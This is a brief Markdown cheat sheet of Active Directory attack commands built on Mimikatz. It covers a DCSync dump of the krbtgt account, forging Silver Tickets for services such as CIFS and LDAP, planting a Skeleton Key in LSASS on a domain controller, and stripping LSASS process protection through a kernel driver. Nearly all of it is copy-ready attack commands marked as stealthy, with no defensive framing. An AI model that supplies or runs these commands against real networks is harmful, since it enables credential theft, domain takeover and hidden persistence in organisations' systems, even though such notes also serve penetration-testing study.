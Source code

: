 > DA is required
> Can run anywhere

> stealthy

```powershell
Mimikatz # lsadump::dcsync /user:<fqdn or netbios>\krbtgt
Invoke-Mimikatz ‘"lsadump::dcsync /user:<fqdn or netbios>\krbtgt" ’
```


## Silver Ticket

Forging a TGS

```powershell
Mimikatz # kerberos::golden /user:<user> /domain:<domain FQDN> /sid:<domain SID> /target:<target machine> 
   /service:<required service> /rc4:<hash> /ptt 
```

We can request services like:
```powershell
- HOST
- RPCSS
- WSMAN
- TERMSRV
- CIFS
- LDAP
- HTTP
```

## Skeleton Key

> patch a process of LSASS in the DC and with that we can access any user with a uniq password (mimikatz)

> required to be executed in the DC with a priv user

```powershell
Mimikatz # misc::skeleton
```

example usage:
```powershell
Invoke-Mimikatz -ScriptBlock ${Function:Invoke-Mimikatz} -Session $sess
Enter-PsSession -ComputerName <computer> -Credential <user fqdn> //password: mimikatz
```

Alternative to bypass protection of LSASS:

> Modifications on a kernel level is required, mimikatz must be on disk of DC machine

```powershell
Mimikatz# privilege::debug
Mimikatz# !+
Mimikatz# !processprotect /process:lsass.exe /remove
Mimikatz# misc::skeleton
Mimikatz# !-
```
